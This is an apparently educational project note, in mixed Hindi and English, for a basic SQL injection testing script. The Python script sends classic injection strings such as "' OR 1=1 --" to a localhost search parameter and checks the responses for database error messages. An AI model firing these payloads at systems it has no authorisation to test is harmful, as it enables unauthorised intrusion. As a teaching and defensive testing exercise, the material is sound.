

# 010 - Basic SQL Injection Vulnerability Test Script

> **Category**: Basic Cybersecurity Projects | **Difficulty**: ⭐ Basic | **Duration**: 1-2 weeks

---

## Problem Statement and Real World Impact

Real-world applications me yeh problem kafi common hai. Checking if web forms and search parameters properly sanitize input before querying a database.

Jab hum beginner-level cybersecurity practicals ki baat karte hain, toh foundational concepts ko code ke zariye samajhna sabse effective tareeka hota hai. Yeh project ek simple Python script ke zariye is real-world problem ko directly solve karta hai.

---

## Textbook & Paper References

- **Book Reference**: SQL Injection Attacks and Defense by Justin Clarke (Chapter 2: Anatomy of a SQL Injection Attack)
- **Research Paper**: A Automated Testing Methodology for SQL Injection Flaws (ACM SIGSOFT, 2012)

---

## System Architecture

Link: [[Drawing 2026-07-30 22.31.19.excalidraw#Project Basic-010: 010 - Basic SQL Injection Vulnerability Test Script|Excalidraw Architecture Diagram]]



---

## Technical Implementation Code

Python script injecting single quotes and standard SQLi test strings into HTTP request parameters and checking for database error responses.

```python
import requests

sqli_payloads = ["'", "' OR '1'='1", "' OR 1=1 --", "admin' --"]
sql_errors = ["syntax error", "mysql_fetch", "sqlite3", "pg_query", "unclosed quotation mark"]

def test_sqli(url, param_name):
    print(f"[*] Testing parameter '{param_name}' on URL: {url}")
    for payload in sqli_payloads:
        target = f"{url}?{param_name}={payload}"
        try:
            res = requests.get(target, timeout=3.0)
            for err in sql_errors:
                if err in res.text.lower():
                    print(f"[!] VULNERABILITY DETECTED with payload: {payload}")
                    print(f"    Database Error Snippet Found: {err}")
                    return True
        except requests.RequestException:
            pass
    print("[-] Parameter appears resilient to basic SQLi payloads.")
    return False

if __name__ == "__main__":
    test_sqli("http://127.0.0.1/search.php", "query")

```

---

## Expected Results & Outcomes

1. Clear understanding of underlying networking, hashing, or system security mechanics.
2. Functional, lightweight Python script ready to execute in a local lab.
3. Verification of security controls against common real-world misconfigurations.

---

## Legal and Ethical Notice

> [!WARNING] Educational Use Only
> Always run these basic projects in your own local testing environment or authorized laboratory network.

---

## Related Index
- [[00 - Basic Cybersecurity Projects Index]]
